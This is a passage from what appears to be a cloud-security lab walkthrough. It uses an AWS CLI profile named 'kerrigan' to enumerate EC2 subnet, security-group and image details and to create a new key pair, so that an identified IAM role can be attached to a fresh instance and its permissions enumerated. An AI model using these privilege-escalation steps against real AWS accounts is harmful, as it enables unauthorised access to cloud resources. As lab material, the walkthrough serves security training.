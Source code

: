 **Note:** 
1. To extract the permissions of the identified role, create a new EC2 instance and attach these roles to the new instance created and enumerate the permission.
2. Following details are required to create a EC2 Instance **Subnet ID, Security Group, AMI Image ID, ARN Number** of the existing existing instance.

* Use the following command to get the details.

```bash
aws ec2 describe-instances --region us-east-1 --profile kerrigan | grep SubnetId
aws ec2 describe-instances --region us-east-1 --profile kerrigan | grep GroupId
aws ec2 describe-instances --region us-east-1 --profile kerrigan | grep ImageId
aws ec2 describe-instances --region us-east-1 --profile kerrigan | grep GroupName
```

<p align="center">
  <img src="/images/cloud/ec2_require.png">
</p>

* We need to create a new **key pair**, since we don't have access to the existing key pairs of the AWS account.

```bash
aws ec2 create-key-pair --key-name iam_attachment --output text > kerrigan.pem --region us-east-1 --profile kerrigan
```

<p align="center">